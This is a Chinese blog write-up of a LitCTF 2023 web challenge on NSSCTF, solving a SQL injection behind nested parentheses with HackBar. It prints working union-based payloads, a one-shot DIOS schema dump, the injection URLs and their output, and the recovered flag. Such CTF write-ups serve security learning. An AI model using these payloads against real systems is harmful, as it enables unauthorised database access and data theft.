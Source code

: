 ```yaml
---
title: NSSCTF入门题单[LitCTF 2023]WriteUP-NSSCTF-3868
date: 2024-11-27
tags:
 - CTF
 - NSSCTF
 - WriteUP
categories:
 - 随笔 Essay 
isShowComments: true
publish: true






---
```


<Boxx/>

[LitCTF 2023]这套题是Web方向入门题单，这是我的第19题

[[toc]]

- 题单【[传送门](https://www.nssctf.cn/problem/3861)】
- 主办方WriteUP【[传送门](https://dqgom7v7dl.feishu.cn/docx/WdHvd735koqwJxxulA2cv4K4nKf)】
- 主办方WriteUP视频【[传送门](https://www.bilibili.com/video/BV1sm4y187EK)】

| 题目编号 | 题目名称                  | 题目方向 | 难度 |
| -------- | ------------------------- | -------- | ---- |
| 3868     | 这是什么？SQL ！注一下 ！ | Web      | 1    |

<!-- more -->

# 题目19：这是什么？SQL ！注一下 ！

### 题目描述：为了安全起见多带了几个套罢了o(*////▽////*)q

### 考点1：SQL注入

### 考点2：白盒

### 方法1：手工注入，逐个注入

进入靶场，我们可以看到页面中的提示，左下角可以看到白盒页面，是用php写的SQL查询，查询语句多了几层括号

![image-20241127203853303](/img/essay/image-20241127203853303.png)

我们的思路是先闭合括号，然后用注释符号注释掉后边的括号，我们就能在中间执行对应的SQL语句，语句最后是如下形式的

```sql
SELECT username,password FROM users WHERE id = ((((((1)))))) ANY --+))))))
```

我们使用HackBar进行辅助SQL注入，我们打开F12控制台，切换到HackBar，题目给出了提示的列名是username和password两个，我们可以使用HackBar自带的预处理语句进行注入：

![image-20241127204940619](/img/essay/image-20241127204940619.png)

这里我们选择第一个，Dump all database name，也就是爆破所有库名

![image-20241127205229820](/img/essay/image-20241127205229820.png)

我们有username和password两列，所以the number of columns需要填2

然后Output positions填1的情况返回值如下

```mysql
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((11)))))) union select group_concat(schema_name),2 from information_schema.schemata -- ))))))))))))

Array ( [0] => Array ( [username] => information_schema,mysql,ctftraining,performance_schema,test,ctf [password] => 2 ) )
```

然后Output positions填2的情况返回值如下

```mysql
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((11)))))) union select 1,group_concat(schema_name) from information_schema.schemata -- ))))))))))))

Array ( [0] => Array ( [username] => 1 [password] => information_schema,mysql,ctftraining,performance_schema,test,ctf ) )
```

我们怀疑是在ctftraining、test、ctf这三个库最有可能存放flag，所以我们去爆这三个库的表名

![image-20241127205932804](/img/essay/image-20241127205932804.png)

把union的部分都删掉，换成爆破表名的部分，选择Dump tables from database

![image-20241127210113769](/img/essay/image-20241127210113769.png)

```sql
-- 默认是database()
http://node5.anna.nssctf.cn:22679/?id=11)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+))))))
-- 我们手动选择库名
http://node5.anna.nssctf.cn:22679/?id=11)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema='ctftraining' --+))))))
```

执行之后，我们得到如下结果

```mysql
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((11)))))) union select 1,group_concat(table_name) from information_schema.tables where table_schema='ctftraining' -- ))))))))))))

Array ( [0] => Array ( [username] => 1 [password] => flag,news,users ) )
```

下一步我们爆表里面的字段名：

 我们在HackBar的SQLI选项里选择MySQL，然后选择Dump columns from database，然后将库名替换为ctftraining

```sql
http://node5.anna.nssctf.cn:22679/?id=11)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema='ctftraining' --+))))))
```

执行之后，我们得到如下结果

```mysql
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((11)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema='ctftraining' -- ))))))))))))

Array ( [0] => Array ( [username] => 1 [password] => flag,id,title,content,time,id,username,password,ip,time ) )
```

最后我们使用联合查询的方式，直接将flag这个字段的值拿出来

```
http://node5.anna.nssctf.cn:22679/?id=11)))))) union select 1,flag from ctftraining.flag --+))))))
```

这句话的意思是，我们查询ctftraining库下的flag表的flag字段

```mysql
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((11)))))) union select 1,flag from ctftraining.flag -- ))))))))))))

Array ( [0] => Array ( [username] => 1 [password] => NSSCTF{6090c84c-7585-4fb7-989d-598b04e7ba82} ) )
```

### 方法2：手工注入 DIOS（Dump in one shot）

我们除了第一种的方法，先爆破库名，然后爆破表名，然后爆破列名，最后用列名做查询。我们还可以使用一波流，直接将整个库都拿下来，具体方法如下

![image-20241127211845107](/img/essay/image-20241127211845107.png)

选择Dump in one shot，会生成HackBar的预处理语句（需要注意生成的这句话是一个列名，需要和1对齐），我们直接点运行

```sql
http://node5.anna.nssctf.cn:22679/?id=11)))))) union select 1,

(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a) 

--+))))))
```

此时得到的回显会很长，我们需要筛查其中的内容，找到flag这个表和flag的flag字段

```sql
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((11)))))) union select 1,(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a) -- ))))))))))))


---内容仅展示部分
Array ( [0] => Array ( [username] => 1 [password] => [ information_schema ] > ALL_PLUGINS > PLUGIN_NAME| [ information_schema ] > ALL_PLUGINS > PLUGIN_VERSION| [ information_schema ] > ALL_PLUGINS > PLUGIN_STATUS| [ information_schema ] > ALL_PLUGINS > PLUGIN_TYPE| [ information_schema ] > ALL_PLUGINS > PLUGIN_TYPE_VERSION| [ information_schema ] > ALL_PLUGINS > PLUGIN_LIBRARY| [ information_schema ] > ALL_PLUGINS > PLUGIN_LIBRARY_VERSION| [ information_schema ] > ALL_PLUGINS > PLUGIN_AUTHOR| [ information_schema ] > ALL_PLUGINS > PLUGIN_DESCRIPTION| [ information_schema ] > ALL_PLUGINS > PLUGIN_LICENSE| [ information_schema ] > ALL_PLUGINS > LOAD_OPTION| [ information_schema ] > ALL_PLUGINS > PLUGIN_MATURITY| [ information_schema ] > ALL_PLUGINS > PLUGIN_AUTH_VERSION| [ information_schema ] > APPLICABLE_ROLES > GRANTEE| [ information_schema ] > APPLICABLE_ROLES > ROLE_NAME| [ information_schema ] > APPLICABLE_ROLES > IS_GRANTABLE| [ information_schema ] > APPLICABLE_ROLES > IS_DEFAULT| [ information_schema ] > CHARACTER_SETS > CHARACTER_SET_NAME| [ information_schema ] > CHARACTER_SETS > DEFAULT_COLLATE_NAME| [ information_schema ] > CHARACTER_SETS > DESCRIPTION| [ information_schema ] > CHARACTER_SETS > MAXLEN| [ information_schema ] > CHECK_CONSTRAINTS > CONSTRAINT_CATALOG| [ information_schema ] > CHECK_CONSTRAINTS > CONSTRAINT_SCHEMA| [ information_schema ] > CHECK_CONSTRAINTS > TABLE_NAME| [ information_schema ] > CHECK_CONSTRAINTS > CONSTRAINT_NAME| [ information_schema ] > CHECK_CONSTRAINTS > CHECK_CLAUSE| [ information_schema ] > COLLATIONS > COLLATION_NAME| [ information_schema ] > COLLATIONS > CHARACTER_SET_NAME| [ information_schema ] > COLLATIONS > ID| [ 
```

最后我们使用联合查询的方式，直接将flag这个字段的值拿出来

```
http://node5.anna.nssctf.cn:22679/?id=11)))))) union select 1,flag from ctftraining.flag --+))))))
```



### 彩蛋：输入2，然后执行

```
Executed Operations:
SELECT username,password FROM users WHERE id = ((((((2))))))

Array ( [0] => Array ( [username] => fake_flag [password] => F1rst_to_Th3_eggggggggg!} (4/4) ) )
```

### 总结：需要学好SQL基础，尤其是union操作符的用法